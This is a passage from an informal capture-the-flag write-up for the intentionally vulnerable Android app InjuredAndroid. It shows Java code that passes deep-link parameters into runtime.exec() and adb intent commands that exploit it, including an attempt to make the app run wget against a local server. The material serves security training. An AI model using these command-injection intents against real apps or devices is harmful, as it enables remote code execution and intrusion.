 Also it will check for 3 parameters and two of them will use it to execute through exec() call: 

````java
String queryParameter = data.getQueryParameter("binary");
String queryParameter2 = data.getQueryParameter("param");
final String queryParameter3 = data.getQueryParameter("combined");
....
    runtime.exec(getFilesDir().getParent() + "/files/" + queryParameter + " " + queryParameter2).getInputStream()
....
````

For this solution i had to check his video in youtube because i didnt understood it actually, didnt find the magic word Treasure_Planet and the go binary was to large (Go) to analyze: 

![image-20201020210804211](C:\Users\ximo\AppData\Roaming\Typora\typora-user-images\image-20201020210804211.png)

To solve i executed three times: 

````bash
adb shell am start -a android.intent.action.VIEW -d "flag13://rce?binary=narnia.x86_64&param=1" b3nac.injuredandroid
adb shell am start -a android.intent.action.VIEW -d "flag13://rce?binary=narnia.x86_64&param=1" b3nac.injuredandroid
adb shell am start -a android.intent.action.VIEW -d "flag13://rce?binary=narnia.x86_64&param=1" b3nac.injuredandroid
adb shell am start -a android.intent.action.VIEW -d "flag13://rce?combined=Treasure_Planet" b3nac.injuredandroid
````

In order to test more about RCE, i setup a SimpleHTTPServer with an index.html on my machine, then executed the next intent: 

````bash
adb shell am start -a android.intent.action.VIEW -d "flag13://rce?binary=/system/xbin/bin/wget&param=http://192.168.56.1/index.html" b3nac.injuredandroid
````

But the wget binary was innaccesible or not found.

### **14 - FLUTTER XSS**

WTF 

It seems that i dont have the kernel_blob.bin :(

![image-20201021180219367](C:\Users\ximo\AppData\Roaming\Typora\typora-user-images\image-20201021180219367.png)

Downloaded version 1.0.10. Also, on the emulator if i click on this menu entry it will close the application.

### **15 - ASSEMBLY**

This one tell us to convert the byte array into a string: 

58 40 42 -> :(*
